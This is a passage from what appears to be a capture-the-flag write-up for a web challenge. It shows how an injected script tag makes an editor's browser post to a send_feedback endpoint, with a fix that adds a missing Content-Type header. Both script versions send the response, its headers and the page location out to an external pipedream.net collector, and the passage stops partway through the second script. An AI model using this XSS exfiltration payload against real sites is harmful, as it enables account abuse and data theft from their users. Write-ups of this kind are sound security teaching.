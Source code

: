 Editor can send the feedback about the article to the user. Let's try sending the feedback to ourselves (in my case, login is `kokokoko`).

```html
<script>

    let req = new XMLHttpRequest();
    req.open("POST", "http://zad38-2022-final:5000/send_feedback");
    // "Populate" the form
    req.send("receiver=kokokoko&content=abc&debug=on");

    setTimeout(() => {

        const data = { 
            content: req.response, 
            resp_headers: req.getAllResponseHeaders(), 
            location: document.location 
        };

        fetch('https://eozy3pwhxz589s.m.pipedream.net', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(data),
        });

    }, "1000");

</script>
```
And... nothing happens. The only thing that changed is editor receiving info about delivering the feedback:
```html
<div class="alert alert-primary" role="alert">Wysłano informację zwrotną</div>
```
But our user doesn't receive any feedback. I've been stuck here for a couple of hours, trying to find the feedback in the database (using SQL injection vulnerability) or other weird places.      
  
Finally, I've found the solution. We are missing the `Content-Type` header in our request. This header is automagically set with a corresponding value by browser when hitting `SUBMIT` in the form. So here is the final version of the malicious script.

```html
<script>

    let req = new XMLHttpRequest();
    req.open("POST", "http://zad38-2022-final:5000/send_feedback");
    // Add missing header
    req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    // "Populate" the form
    req.send("receiver=kokokoko&content=abc&debug=on");

    setTimeout(() => {

        const data = { 
            content: req.response, 
            resp_headers: req.getAllResponseHeaders(), 
            location: document.location 
        };

        fetch('https://eozy3pwhxz589s.m.pipedream.net', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
```